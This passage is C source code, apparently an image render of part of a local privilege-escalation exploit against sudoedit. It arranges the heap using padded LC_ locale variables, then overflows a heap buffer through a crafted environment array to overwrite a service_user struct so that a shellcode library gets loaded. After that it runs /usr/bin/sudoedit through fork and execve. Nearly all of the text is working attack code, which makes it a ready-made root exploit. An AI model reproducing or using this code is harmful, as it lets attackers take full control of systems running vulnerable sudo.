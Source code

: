 ```c

    // Use some LC_ vars for heap Feng-Shui.
    // This should allocate the target service_user struct in the path of the overflow.
    char messages[0xe0] = {"LC_MESSAGES=en_GB.UTF-8@"};
    memset(messages + strlen(messages), 'A', 0xb8);

    char telephone[0x50] = {"LC_TELEPHONE=C.UTF-8@"};
    memset(telephone + strlen(telephone), 'A', 0x28);

    char measurement[0x50] = {"LC_MEASUREMENT=C.UTF-8@"};
    memset(measurement + strlen(measurement), 'A', 0x28);

    // This environment variable will be copied onto the heap after the overflowing chunk.
    // Use it to bridge the gap between the overflow and the target service_user struct.
    char overflow[0x500] = {0};
    memset(overflow, 'X', 0x4cf);
    strcat(overflow, "\\");

    // Overwrite the 'files' service_user struct's name with the path of our shellcode library.
    // The backslashes write nulls which are needed to dodge a couple of crashes.
    char* envp[] = {
        overflow,
        "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "XXXXXXX\\",
        "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "x/x\\",
        "Z",
        messages,
        telephone,
        measurement,
        NULL};

    // Invoke sudoedit with our argv & envp.

	int des_p[2];
	if(pipe(des_p) == -1){

		puts("Error .. pipe \n");
		return -1;
	}
	
	if(fork() == 0)            //first fork
        {
            close(STDOUT_FILENO);  //closing stdout
            dup(des_p[1]);         //replacing stdout with pipe write 
            close(des_p[0]);       //closing pipe read
	    write(des_p[1],command, strlen(command));
            close(des_p[1]);
	    exit(1);
        }

	if(fork()==0){
		close(STDIN_FILENO);   //closing stdin
		dup(des_p[0]);         //replacing stdin with pipe read
		close(des_p[1]);       //closing pipe write
		close(des_p[0]);
		
		execve("/usr/bin/sudoedit", sudoedit_argv, envp);
		perror("execvp of stdread failed");
		exit(1);
	}
	close(des_p[0]);
```